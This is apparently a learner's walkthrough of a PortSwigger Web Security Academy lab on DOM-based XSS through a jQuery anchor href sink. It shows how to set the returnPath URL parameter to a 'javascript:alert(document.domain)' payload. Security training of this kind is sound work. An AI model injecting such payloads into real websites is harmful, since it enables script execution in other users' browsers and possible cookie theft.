



# DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

## This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability in the submit feedback page. It uses the jQuery library's `$` selector function to find an anchor element, and changes its `href` attribute using data from `location.search`.

## To solve this lab, make the "back" link alert `document.cookie`.

note: =>

## payload for href = javascript:alert(document.domain)

---

### step 1

go to feedback form

https://0aa5003e040f5dabc06127b800800039.web-security-academy.net/feedback?returnPath=/feedback
and inspect feedback form

change url

https://0aa5003e040f5dabc06127b800800039.web-security-academy.net/feedback?returnPath=/feedback
to

https://0aa5003e040f5dabc06127b800800039.web-security-academy.net/feedback?returnPath=test
` <a id="backLink" href="test">Back</a>`

now use payload
`javascript:alert(document.domain)`

https://0aa5003e040f5dabc06127b800800039.web-security-academy.net/feedback?returnPath=javascript:alert(document.domain)

